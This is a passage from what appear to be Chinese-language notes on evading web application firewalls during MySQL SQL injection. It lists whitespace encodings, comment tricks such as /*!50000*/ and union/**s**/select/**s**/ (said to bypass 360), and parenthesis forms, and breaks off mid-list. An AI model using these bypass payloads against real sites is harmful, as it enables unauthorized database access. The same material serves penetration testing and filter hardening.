 4. 利用/\*!50000\*/的形式:

![50000-test](./50000-test.jpg)
* 第二：union和select之前的位置

1. 空白字符

```txt
Mysql中可以利用的空白字符有：%09,%0a,%0b,%0c,%0d,%a0；
```

2. 注释

```txt
使用空白注释
/*xxxx*/
/*!xxxx*/

例子:
union/**s**/select/**s**/   #绕过360
```

3. 使用括号

```txt
select(*)from(tab_name);
```

* 第三：union select后的位置

1. 空白字符

```txt
Mysql中可以利用的空白字符有：%09,%0a,%0b,%0c,%0d,%a0；
```

2. 注释

```txt
使用空白注释
/*xxxx*/
/*!xxxx*/
```

3. 其他方式：(这里需要考虑的是有时候union select和select from可能是两个规则，这里先整理union select的)

```txt
(1)括号：
select(*)from(tab_name);
```

```txt
(2)运算符号：
减号：
```
